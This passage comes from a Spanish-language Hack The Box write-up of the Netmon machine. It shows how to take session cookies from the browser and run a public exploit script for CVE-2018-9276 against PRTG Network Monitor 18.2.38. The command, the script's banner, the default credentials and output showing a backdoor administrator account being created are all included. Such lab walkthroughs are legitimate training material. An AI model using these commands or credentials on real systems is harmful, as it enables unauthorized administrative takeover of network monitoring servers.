 El Exploit nos pide unas cookies, que podemos ver si inspeccionamos la página web y nos vamos a la sección de storage:

<p align="center">
<img src="/assets/images/htb-writeup-netmon/Captura9.png">
</p>

<br>

<h2 id="Exploit2">Probando Exploit: PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution</h2>

Vamos a ejecutar el programa con las cookies que nos pide:
```bash
chmod +x PRTG_exploit.sh

./PRTG_exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.1030767543.1673826713; _gid=GA1.4.459131971.1709957738; OCTOPUS1813713946=ezFBMkU1OTA4LTMxQ0EtNDg1Qy04NDVCLTI1NDk5ODJBQjBFQ30%3D _gat=1"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'                                                                                                                                       

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```
